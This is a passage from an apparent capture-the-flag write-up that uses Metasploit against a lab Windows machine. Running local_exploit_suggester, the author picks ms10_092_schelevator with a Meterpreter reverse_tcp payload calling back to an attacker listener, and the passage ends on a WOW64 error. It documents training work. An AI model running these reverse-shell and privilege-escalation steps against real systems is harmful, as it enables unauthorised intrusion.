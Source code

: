 ```
[*] Meterpreter session 1 opened (10.10.14.28:5555 -> 10.10.10.11:49586) at 2020-08-31 15:51:41 -0400

meterpreter >
```
By running ```local_exploit_suggester``` we can see that the box is vulnerable to ```ms10_092_schelevator```.
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.11 - Collecting local exploits for x86/windows...
[*] 10.10.10.11 - 34 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
So we can exploit it and get a ```SYSTEM``` user.
```
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms10_092_schelevator) > options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT     7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```
And by running it we get this error:
```
[-] Exploit aborted due to failure: no-target: Running against via WOW64 is not supported, try using an x64 meterpreter...
```
